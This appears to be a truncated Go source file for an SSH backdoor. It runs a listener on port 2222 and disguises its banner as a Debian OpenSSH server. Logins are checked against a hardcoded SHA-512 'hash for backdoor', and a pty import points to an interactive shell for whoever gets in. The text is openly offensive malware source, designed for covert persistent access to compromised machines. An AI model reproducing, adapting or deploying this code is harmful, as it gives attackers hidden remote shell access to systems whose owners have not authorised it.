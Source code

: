 ```go

package main

import (
	"crypto/sha512"
	"fmt"
	"io"
	"io/ioutil"
	"log"
	"net"
	"os/exec"

	"github.com/creack/pty"
	"github.com/gliderlabs/ssh"
	"github.com/integrii/flaggy"
	gossh "golang.org/x/crypto/ssh"
	"golang.org/x/crypto/ssh/terminal"
)

var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"

func main() {
	var (
		lport       uint   = 2222
		lhost       net.IP = net.ParseIP("0.0.0.0")
		keyPath     string = "id_rsa"
		fingerprint string = "OpenSSH_8.2p1 Debian-4"
	)

	flaggy.UInt(&lport, "p", "port", "Local port to listen for SSH on")
	flaggy.IP(&lhost, "i", "interface", "IP address for the interface to listen on")
	flaggy.String(&keyPath, "k", "key", "Path to private key for SSH server")
	flaggy.String(&fingerprint, "f", "fingerprint", "SSH Fingerprint, excluding the SSH-2.0- prefix")
	flaggy.String(&hash, "a", "hash", "Hash for backdoor")
	flaggy.Parse()

	log.SetPrefix("SSH - ")
	privKeyBytes, err := ioutil.ReadFile(keyPath)
	if err != nil {
		log.Panicln("Error reading privkey:\t", err.Error())
	}
	privateKey, err := gossh.ParsePrivateKey(privKeyBytes)
	if err != nil {
		log.Panicln("Error parsing privkey:\t", err.Error())
	}
	server := &ssh.Server{
		Addr:            fmt.Sprintf("%s:%v", lhost.String(), lport),
		Handler:         sshterminal,
		Version:         fingerprint,
		PasswordHandler: passwordHandler,
	}
	server.AddHostKey(privateKey)
	log.Println("Started SSH backdoor on", server.Addr)
	log.Fatal(server.ListenAndServe())
}
func verifyPass(hash, salt, password string) bool {
	resultHash := hashPassword(password, salt)
	return resultHash == hash
}

func hashPassword(password string, salt string) string {
```